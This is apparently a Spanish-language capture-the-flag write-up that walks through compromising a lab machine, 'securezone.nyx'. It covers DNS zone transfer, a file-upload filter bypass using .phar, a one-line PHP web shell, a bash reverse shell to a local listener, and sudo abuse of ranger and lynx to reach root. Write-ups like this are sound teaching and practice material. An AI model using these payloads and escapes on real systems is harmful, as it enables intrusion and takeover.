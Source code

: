 # Reconocimiento y enumeración
Con `arp-scan` podemos ver que el IP objetivo es `192.168.0.110`. Si hacemos el escaneo con nmap obtenemos.
![](_anexos_/Screenshot%20from%202023-12-26%2020-21-31.png)
- Si ingresamos a la pagina web en puerto 80, nos sale la pagina por defecto de apache.
- `whatweb` no detecta nada que pueda resultar interesante.

Si hacemos fuzzing a la maquina, `dirb` encuentra una ruta interesante.`Gobuster` parece no detectar nada.

![](_anexos_/Screenshot%20from%202023-12-26%2020-25-48.png)
En `robots.txt` encontramos este dominio el cual asociamos a la IP en `/etc/hosts`.

![](_anexos_/Screenshot%20from%202023-12-26%2020-41-42.png)

Como tenemos el puerto 53 del servicio `DNS` abierto. Podemos tratar de hacer una enumeración con el dominio que encontramos en `robots.txt` haciendo uso de `dig`.

``` bash
dig axfr @192.168.0.110 securezone.nyx
```

![](_anexos_/Screenshot%20from%202023-12-26%2020-31-50.png)

Vinculamos todos los dominios a la IP `192.168.0.110`. Si ingresamos a `upl0ads.securezone.nyx` nos encontramos con esto. 

![](_anexos_/Screenshot%20from%202023-12-26%2022-30-07.png)

# Burpsuite y file upload

Ingresamos un archivo `hola.txt` de prueba mientras interceptamos la petición con Burpsuite a través del proxy ya configurado.

![](_anexos_/Screenshot%20from%202023-12-26%2022-33-17.png)

Si pasamos al `repeater` y enviamos la petición, podemos ver que nuestro archivo es denegado. Al parecer existe una serie de archivos permitidos para la carga.
Entonces, procedemos a enviar la petición al `intruder` y lanzar un ataque de tipo `sniper` para probar diferentes extensiones `.php`, lista la cual se toma de [este](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) repositorio. 

![](_anexos_/Screenshot%20from%202023-12-26%2022-37-21.png)

> Importante: desactivar el URL-encode al momento del ataque para que no cambie los caracteres especiales de las extensiones como `dot`.

![](_anexos_/Screenshot%20from%202023-12-26%2022-38-09.png)
![](_anexos_/Screenshot%20from%202023-12-26%2022-38-09.png)

Por ultimo agregamos el codigo php malicioso que nos debería permitir hacer una reverse shell.

``` bash
<?php system($_REQUEST["cmd"]); ?>
```

![](_anexos_/Screenshot%20from%202023-12-26%2022-43-22.png)

Luego de ejecutar el ataque `sniper`, en los resultados podemos ver tres tipos de tamaños diferentes en el request.
- 810: descartados, todas estas son denegadas
- 809: en duda, no probados
- 795: solo un archivo tiene este `length`.
Podemos ver que ese archivo de tamaño 795 es una que tiene la extensión `.phar`.

![](_anexos_/Screenshot%20from%202023-12-27%2000-04-53.png)

Si hacemos fuzzing al dominio `upl0ads.securezone.nyx` encontramos una `/uploads` ruta.
Entonces, ingresamos pero nos tira un `403 forbidden`, lo que si podemos ingresar con la ruta del archivo, en este caso `hola`, si recordamos el `hola.txt` que subimos antes. 

``` bash
http://upl0ads.securezone.nyx/uploads/hola.phar

## Haciendo uso de cmd
http://upl0ads.securezone.nyx/uploas/hola.phar?cmd=id
```

![](_anexos_/Screenshot%20from%202023-12-27%2000-20-16.png)

Procedemos a generar la reverse shell:
``` bash
bash -c "bash -i >& /dev/tcp/192.168.0.107/4444 0>&1"
```

![](_anexos_/Screenshot%20from%202023-12-27%2000-25-03.png)

# Privesc
Si ejecutamos `sudo -l`. Podemos ver que nos permite ejecutar `ranger` como el usuario `hans`. Aprovechamos esto para poder capturar el `id_rsa` y conectarnos a través de ssh. En este caso no es necesario usar herramientas como `john` para crackear la contraseña porque en realidad no esta configurada ninguna. 

![](_anexos_/Screenshot%20from%202023-12-27%2000-49-38.png)

Al ejecutar nuevamente `sudo -l` (esta vez como el usuario `hans`). Podemos ver que podemos ejecutar como root, el navegador por terminal `lynx`. Si entramos al navegador y miramos entre las opciones podemos encontrar.

![](_anexos_/Screenshot%20from%202023-12-27%2000-59-05.png)

Presionamos `!` y ya estamos dentro como el usuario root.

![](_anexos_/Screenshot%20from%202023-12-27%2001-00-08.png)